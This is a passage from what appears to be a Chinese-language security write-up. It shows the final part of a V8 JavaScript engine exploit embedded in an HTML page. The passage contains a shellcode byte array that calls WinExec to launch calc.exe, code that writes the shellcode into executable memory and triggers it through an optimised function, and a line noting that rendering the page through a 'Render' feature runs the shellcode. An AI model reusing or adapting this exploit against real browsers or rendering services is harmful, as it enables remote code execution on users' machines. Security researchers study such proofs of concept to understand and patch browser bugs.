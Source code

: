 ```plain
            0x68, 0x57, 0x69, 0x6e, 0x45, 0x89, 0x65, 0x18, 0xe8, 0xb8, 0xff, 0xff, 0xff, 0x31, 0xc9, 0x51,
            0x68, 0x2e, 0x65, 0x78, 0x65, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x89, 0xe3, 0x41, 0x51, 0x53, 0xff,
            0xd0, 0x31, 0xc9, 0xb9, 0x01, 0x65, 0x73, 0x73, 0xc1, 0xe9, 0x08, 0x51, 0x68, 0x50, 0x72, 0x6f,
            0x63, 0x68, 0x45, 0x78, 0x69, 0x74, 0x89, 0x65, 0x18, 0xe8, 0x87, 0xff, 0xff, 0xff, 0x31, 0xd2,
            0x52, 0xff, 0xd0, 0x90, 0x90, 0xfd, 0xff]
    );

    log("[+] writing shellcode ... ");
    for (let i = 0; i < shellcode.length; i++)
        write(RWX_Mem_Addr + i, shellcode[i]);

    log("[+] execute shellcode !");
    opt_me();
}
pwn();
</script>
</body>
</html>
```

用户在通过Render功能渲染页面时触发v8漏洞成功执行shellcode。

![img](assets/1698903994-1f7c3dcc81c12f1890e78e3248ccffe8.jpg)
